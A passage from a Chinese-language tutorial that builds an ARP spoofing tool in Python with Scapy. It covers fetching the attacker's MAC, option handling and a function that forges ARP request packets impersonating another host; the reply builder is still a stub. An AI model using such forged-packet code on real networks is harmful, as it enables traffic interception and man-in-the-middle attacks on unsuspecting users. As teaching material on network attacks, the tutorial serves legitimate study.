 接下来我们调用get_if_hwaddr方法，根据参数中传入的网卡，获取本机MAC地址，该MAC地址在构建以太网和ARP数据包的时候做为攻击机的MAC地址被使用。继续完善代码：

```Python
......(略)
if len(args) != 1 or options.interface is None:
        parser.print_help()
        sys.exit(0)
mac = get_if_hwaddr(options.interface)#获取本机mac地址
print('本机mac地址是%s' %mac)
```


接下来对 -m 和 -s 参数做逻辑处理：

```Python
....(略)
mac = get_if_hwaddr(options.interface)
print('本机mac地址是%s' %mac)
    #处理参数
    if options.mode == 'req':
        pkt = build_req()
    elif options.mode == 'rep':
        pkt = build_rep()

    if options.summary is True:
        pkt.show()
        ans = input('\n[*] 是否继续? [Y|n]: ').lower()
        if ans == 'y' or len(ans) == 0:
            pass
        else:
            sys.exit(0)
    
    def build_req():#构造请求数据包
        pass
    
    def build_rep():#构造响应数据包
        pass
```
mode参数用户可以传入 req(构造arp请求数据包)或者 rep(构造响应数据包)。下面我们定义了build_req()和build_rep()两个方法分别构造对应的数据包。<b>注意这两个方法是main方法的子方法。</b>如果希望输出数据包信息(-s)，在输出之后要进一步确认是否继续执行arp 欺骗。

下面我们来实现build_req()方法：

```Python
def build_req():#构造请求数据包
        if options.target is None:
            pkt = Ether(src=mac, dst='ff:ff:ff:ff:ff:ff') / ARP(hwsrc=mac, psrc=args[0], pdst=args[0])
        elif options.target:
            target_mac = getmacbyip(options.target)
            if target_mac is None:
                print("[-] Error: 无法获取目标ip的mac地址")
                sys.exit(1)
            pkt = Ether(src=mac, dst=target_mac) / ARP(hwsrc=mac, psrc=args[0], hwdst=target_mac, pdst=options.target)
        return pkt
```
